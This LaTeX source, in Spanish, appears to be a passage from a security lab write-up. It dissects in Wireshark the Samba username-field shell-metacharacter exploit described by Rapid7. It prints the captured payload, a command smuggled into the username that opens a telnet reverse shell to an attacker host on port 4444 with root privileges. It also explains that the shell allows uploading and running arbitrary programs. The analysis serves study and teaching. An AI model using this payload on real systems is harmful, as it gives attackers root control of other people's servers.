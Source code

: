 \documentclass[a4paper,12pt]{scrartcl}
\begin{document}
En la descripción previa de Rapid7 hay información suficiente para intentar destripar con Wireshark el protocolo y buscar esos metacaracteres shell:

\begin{center}
	\includegraphics[width=1\linewidth]{cap6}
	\includegraphics[width=1\linewidth]{cap7}
\end{center}

Vemos que usa en el campo usuario el siguiente texto:

\hfill

\begin{lstlisting}[breaklines]
/=`nohup sh -c '(sleep 3870|telnet 192.168.59.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.59.1 4444 >/dev/null 2>&1 &)'`
\end{lstlisting}

\hfill


Ese usuario introduciría una orden como el usuario que controla Samba para conectar una terminal sh a un servidor de telnet alojado en la máquina atacante puerto 4444. Como samba está controlado por root, la terminal que se ejecuta tiene id=0, permitiendo el nivel máximo de administración. Este fallo estaría clasificado como Injection (aunque no SQL).

\vspace{10pt}

En teoría, uno podría ejecutar cualquier orden a través de estas peticiones, aunque ejecutar una terminal a través de telnet ya ofrece funcionalidad para poder ejecutar lo que haga falta, desde subir nuevos programas usando cat hasta ejecutarlos como root.

\vspace{10pt}
\end{document}
